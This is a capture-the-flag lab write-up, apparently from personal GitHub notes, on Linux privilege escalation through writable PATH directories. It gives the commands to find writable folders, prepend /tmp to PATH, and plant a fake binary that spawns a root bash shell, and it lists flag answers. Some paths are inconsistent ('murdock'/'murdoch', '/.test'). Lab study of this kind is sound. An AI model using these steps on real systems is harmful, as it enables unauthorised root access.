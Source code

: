 ## Priviledge Escalation PATH

### Notes:
- exploiting path folders which we have write access to. 
- see if you have write access to PATH so you can add folders where you have write access to. 
  - binaries run in path are usually run under root privileges. 
  - copy binary in the folder indicated in path then run a binary containing "/bin/bash" to create a root enabled shell. 

### What is the odd folder you have write access for?
1. Run the following command to find write acccess for your user. 

```
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u 
```

Running it doesn't produce the answer we need let's go 1 level deeper: 
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

![Screenshot 2024-02-09 at 8 08 11 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5fccce0a-4d79-4844-b615-9bb3889e477b)



**Answer: home/murdock**


### What is the content of the flag6.txt file?
1. First run the following to see the path:
```
echo $PATH
```
![Screenshot 2024-02-09 at 9 22 52 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0711b158-15d7-4175-b250-6ff42a25ad1a)

2. Let's see if we have any write permissions in any of the $PATH directories.
```
find / -writable  2>/dev/null | cut -d "/" -f 2,3,4 | grep usr | sort -u
```
![Screenshot 2024-02-09 at 9 45 36 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/a296eb75-af03-4ba2-b1c1-4ab7b0fa3fe4)

3. Unfortunately the writable usr/lib/systemd is not included in the path.
4. We will append /tmp in the PATH by running the following command:
```
export PATH=/tmp:$PATH
```
5. Execute the following command:
```
cd /tmp
echo "/bin/bash" > thm
chmod 777 thm
```

6. Execute the following which will grant you a root access bash terminal
```
cd /home/murdoch/
/.test
```

7. Execute `cat /home/matt/flag6.txt`
![Screenshot 2024-02-09 at 11 13 47 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d2949442-0b6c-4613-81cd-e560d6d72012)

**Answer: THM-736628929**
